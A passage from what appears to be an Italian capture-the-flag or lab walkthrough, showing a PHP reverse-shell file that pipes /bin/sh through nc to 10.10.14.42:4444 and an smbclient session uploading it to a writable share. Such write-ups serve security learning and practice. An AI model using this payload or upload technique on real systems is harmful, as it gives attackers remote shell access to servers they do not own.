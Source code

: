 ![](../zzz_rev/attachments/1*pDOjwlUQ3_JF_xKFEre1ug.webp)

Funziona !! non ci resta che creare un revshell in php metterci in ascolto con nc e dovremmo esserci 

Revshell.php
```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f"); ?>
```

La carichiamo sulla condivisione 

```bash
smb: \> put revers.php 
putting file revers.php as \revers.php (0.8 kb/s) (average 0.5 kb/s)
smb: \> dir
  .                                   D        0  Wed Jun  7 06:58:13 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  revers.php                          A      100  Wed Jun  7 06:58:14 2023
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648728 blocks available
```
